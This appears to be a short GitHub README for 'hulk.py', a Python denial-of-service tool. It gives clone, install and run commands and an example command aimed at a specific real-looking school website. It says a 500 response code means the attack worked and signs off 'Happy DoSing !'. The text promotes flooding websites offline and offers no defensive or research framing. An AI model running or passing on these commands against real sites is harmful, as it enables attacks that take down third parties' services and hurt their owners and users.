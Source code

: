 


This contains a file named hulk.py
Hulk.py is one of the best DDoS tools which is written in python.
Installation commands:-

pkg install python2

git clone https://github.com/DarkMennA/hulk

cd hulk

hmod +x hulk.py

Usage:- 

python2 hulk.py "link"

Example:- python2 hulk.py http://www.kalkaeducationalsociety.com

If the result come RESPONSE CODE 500 then your DoS attack is successful.
Handshake!!
But some websites blocks you ip which may also show RESPONSE CODE 500
Happy DoSing !
-----END------
